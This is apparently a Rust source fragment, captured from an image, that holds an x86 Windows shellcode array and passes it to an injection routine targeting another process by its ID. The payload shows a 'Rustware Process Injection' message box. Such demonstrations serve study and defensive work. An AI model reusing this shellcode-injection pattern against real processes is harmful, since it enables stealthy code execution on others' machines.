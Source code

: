```rust

    let payload: [u8; 272] = [
        0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31, 0xc9, 0x64, 0x8b,
        0x71, 0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b, 0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b,
        0x36, 0x38, 0x4f, 0x18, 0x75, 0xf3, 0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24,
        0x24, 0x8b, 0x45, 0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a,
        0x20, 0x01, 0xeb, 0xe3, 0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31, 0xff, 0x31, 0xc0,
        0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c,
        0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a, 0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a,
        0x1c, 0x01, 0xeb, 0x8b, 0x04, 0x8b, 0x01, 0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2,
        0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68, 0x8e, 0x4e, 0x0e, 0xec, 0x52, 0xe8, 0x9f,
        0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0x7e, 0xd8, 0xe2, 0x73, 0x87, 0x1c, 0x24, 0x52,
        0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89, 0x45, 0x08, 0x68, 0x6c, 0x6c, 0x20, 0x41, 0x68, 0x33,
        0x32, 0x2e, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88, 0x5c, 0x24, 0x0a, 0x89,
        0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d, 0xbc, 0x87, 0x1c,
        0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x77, 0x61,
        0x72, 0x65, 0x68, 0x52, 0x75, 0x73, 0x74, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x08, 0x89, 0xe3,
        0x68, 0x6e, 0x58, 0x20, 0x20, 0x68, 0x63, 0x74, 0x69, 0x6f, 0x68, 0x49, 0x6e, 0x6a, 0x65,
        0x68, 0x65, 0x73, 0x73, 0x20, 0x68, 0x50, 0x72, 0x6f, 0x63, 0x31, 0xc9, 0x88, 0x4c, 0x24,
        0x11, 0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0, 0x31, 0xc0, 0x50, 0xff,
        0x55, 0x08,
    ];
    let payload_len = payload.len();
    let payload_ptr: *const c_void = payload.as_ptr() as *const c_void;

    inject(pid, payload_ptr, payload_len);
}
```

